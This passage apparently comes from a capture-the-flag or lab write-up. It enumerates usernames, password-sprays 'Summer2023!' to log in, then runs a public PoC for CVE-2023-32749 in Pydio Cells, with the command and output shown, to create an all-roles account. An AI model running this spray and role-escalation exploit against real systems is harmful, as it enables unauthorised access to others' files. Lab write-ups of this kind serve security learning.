 ![alt text](../assets/image_control/2e.png)

So after browsing to find as many users as possible on the site we can obtain this users.txt :

```console
a.larose
a.rodriguez
k.leblanc
k.dagenais
s.thibodeau
j.george
a.larose
```
We can spray the password : ```Summer2023!``` and we be able to login with ```k.dagenais;Summer2023!```

But our user is not very interesting, after some research we can use this PoC :

## Exploit Pydio Cells and get a shell on a machine
[CVE-2023-32749](https://github.com/xcr-19/CVE-2023-32749)

```Pydio Cells allows users by default to create so-called external users in order to share files with them. By modifying the HTTP request sent when creating such an external user, it is possible to assign the new user arbitrary roles. By assigning all roles to a newly created user, access to all cells and non-personal workspaces is granted.```

So with this PoC we will be able to create a new user with some interesting roles.

```bash
python3 exploit.py -u 'k.dagenais' -p 'Summer2023!' -l 'https://cells.intra.control.vl'
[*] Got the JWT token aOCLaH8m5zs2qYTMJsKGCDGIvRcnAXsq6Bn2bFB0Fys.2Pi0li_YOzcBpB80wuJAn92Qst5u6t0tYiOI6AJNVbc
[*] Got uuids for the new user
[*] Created new user: foobar with password: hunter2
{"Uuid":"e8f...ect":"allow"}]}
```
Login as ```foobar;hunter2```
